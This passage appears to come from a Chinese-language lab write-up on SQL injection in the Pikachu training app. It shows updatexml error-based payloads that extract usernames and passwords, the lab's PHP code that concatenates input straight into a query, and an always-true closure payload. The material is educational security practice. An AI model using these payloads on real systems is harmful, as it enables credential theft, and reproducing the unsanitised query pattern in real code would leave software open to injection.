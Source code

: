 ![](../../../../assets/img/安全/实验/Misc/pikachu/41.png)

![](../../../../assets/img/安全/实验/Misc/pikachu/42.png)

数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`

![](../../../../assets/img/安全/实验/Misc/pikachu/43.png)

数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`

![](../../../../assets/img/安全/实验/Misc/pikachu/44.png)

### xx 型注入

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

参照代码,这里使用字符型且没有使用相似查询,然而这个不重要,关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update" 注入

insert 注入,就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库,后台在接受前端的注册数据时没有做防 SQL 注入的处理,导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中,导致了 insert 注入.
